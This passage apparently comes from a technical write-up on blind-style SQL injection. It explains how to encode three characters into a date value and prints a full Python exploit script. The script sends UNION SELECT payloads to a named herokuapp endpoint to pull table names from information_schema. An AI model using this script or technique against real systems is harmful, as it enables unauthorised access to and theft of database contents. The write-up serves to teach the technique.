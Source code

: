 This means that we can get up to 5 characters at a time, because `128^6` is still within the permissible range and will not cause an overflow.

However, when Python uses `datetime.strptime` to convert a date to a timestamp, the highest upper limit seems to be 9999, and an error will be thrown if it exceeds this limit. Therefore, unless you write your own conversion, you can only get data for 3 characters at a time at most. Writing this conversion is very troublesome (you need to consider the number of days in each month and leap years), so I only implemented a version for 3 characters, the code is as follows:

``` python
# exploit-ava-3x.py
import requests
import datetime
import json
import urllib.parse
import time

def encode(raw):
  return urllib.parse.quote(raw.encode('utf8'))

host = 'https://od-php.herokuapp.com/sql'
base_time = 1672502400
index = 1
result = ''
field = 'group_concat(table_name)'
fr = " FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'"
fr = encode(fr)
start = time.time()
while True:
  payload = f'''
    ascii(SUBSTRING({field},{index}))*86400
    + ascii(SUBSTRING({field},{index+1}))*86400*128
    + ascii(SUBSTRING({field},{index+2}))*86400*128*128
    + {base_time}
  '''
  response = requests.get(f'{host}/availability.php?id=12345%20union%20select%201%20,{base_time},{encode(payload)},4%20{fr}&start_time=2023-01-01&end_time=2023-01-01')
  index += 3
  if response.ok:
    data = json.loads(response.text)
    d = data['events'][0]['end']
    print(d)
    if d == '2023-01-01':
      break
    else:
      diff = datetime.datetime.strptime(d, "%Y-%m-%d").timestamp() - base_time
      diff = int(diff/86400)
      is_over = False
      while diff > 0:
        num = diff % 128
        if num == 0:
          is_over = True
          break
        result += chr(num)
        diff = int((diff - num) / 128)

      if is_over:
        break

      print("current:", result)
      
  else:
    print('error')
    break
```